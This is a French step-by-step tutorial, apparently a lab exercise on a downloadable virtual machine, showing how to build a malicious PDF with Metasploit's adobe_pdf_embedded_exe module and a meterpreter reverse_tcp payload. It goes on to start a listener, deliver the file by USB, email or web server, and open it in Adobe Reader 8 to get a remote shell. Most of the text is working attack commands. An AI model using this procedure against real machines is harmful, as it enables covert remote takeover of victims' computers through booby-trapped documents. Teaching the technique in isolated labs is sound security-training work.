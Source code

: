 # Tutoriel : Prendre le contrôle d’une machine windows avec un fichier pdf

Avant de commencer ce tutoriel, je vous conseillerai d’aller voir le cours sur le reverse shell pour bien comprendre les différentes étapes. Si vous avez lu le cours, je vous conseille maintenant d’aller commencer à télécharger la machine virtuelle que vous pourrez importer dans virtualbox en cliquant sur : [télécharger la Machine Virtuelle](https://mega.nz/file/YbEHwDJa#ky-4v_EFZCSYkLJLwulOvQXYNAbfivyp73gFinxZoDk){target="_blank"}

## Étape 1 : Créer et récupérer le pdf malicieux
Métasploit propose un grand nombre de payloads divers et variés. En tapant les bonnes recherches, il sera possible de trouver facilement celui qui nous intéresse.
Tapez la commande ```msfconsole``` pour démarrer métasploit.
Ensuite il faut chercher le payload. 
Tapez ```search windows fileformat pdf```. Vous aurez un résultat comme ci dessous :

![image search](images/search_msfconsole.png)

Plusieurs modules répondent à notre recherche, mais peu d’entre eux sont classés comme excellents. Nous allons donc prendre le numéro 6.
Pour l’utiliser tapez ```use exploit/windows/fileformat/adobe_pdf_embedded_exe```
Nous allons vouloir configurer un payload qui nous fera une connexion vers notre machine et qui ouvrira une session meterpreter. 
Ainsi, tapons la commande : ```set payload windows/meterpreter/reverse_tcp```

Pour voir les options actuelles du payload, tapez : ```show options```
![image options](images/show_options.png)

Vous devriez avoir quelque chose comme cela, peut être qu’une adresse par défaut ou qu’un port par défaut à été renseigné pour LHOST et LPORT.
Nous allons configurer ce payload. Il faut commencer par renseigner les valeurs de LHOST et LPORT.
Pour cela tapez ```set LHOST x.x.x.x``` en remplaçant les x par les valeurs de l’adresse ip de votre machine. Puis tapez ```set LPORT xxx``` en remplaçant xxx par le port de votre choix (par exemple, ```set LPORT 4444```).
vous pouvez refaire un show options, vous devriez voir que les options ont été prises en compte.
Vous pouvez ensuite modifier le nom de votre fichier pdf en tapant ```set FILENAME xxxx.pdf``` en remplaçant xxxx par le nom que vous voulez donner.

Quand tout est prêt, tapez exploit. Vous verrez ensuite que votre fichier a été créé et la console vous indique à la dernière ligne le chemin d’accès à ce fichier.

## ÉTAPE 2 : Activer le listener
Pour activer le listener, il vous faudra taper la commande ```use exploit/multi/handler```
puis ```set payload windows/meterpreter/reverse_tcp```
De même que précédemment, il vous faut renseigner LHOST et LPORT. Quand cela est fait, tapez exploit.

## ÉTAPE 3 : Envoyer le fichier
Vous pouvez envoyer le fichier de toutes les manières possibles : par usb, par mail, en le mettant en ligne en ayant démarré un serveur apache,... et tout autre technique imaginable.

## ÉTAPE 4 : Ouvrir le fichier
Le fichier est bien téléchargé sur la machine virtuelle.
Avant de l’ouvrir, vérifiez bien que le listener est lancé. Vous devez voir cela : 

![image listener](./images/listener.png)

avec votre adresse et votre port que vous avez renseigné.

Si tout est prêt, ouvrez le pdf avec adobe reader 8 ! 

![image enregistrer](./images/enregistrer-template.png)

Enregistrez template.pdf s’il vous le demande.

![image open](./images/openpdf.png)

Cliquez sur open.

Retournez voir votre listener… Une fenêtre meterpreter s’est lancée, une connexion a été faite entre votre machine et celle de la victime. Tapez ```help``` pour voir tout ce qu’il vous est possible de faire. Amusez-vous bien ! Félicitations !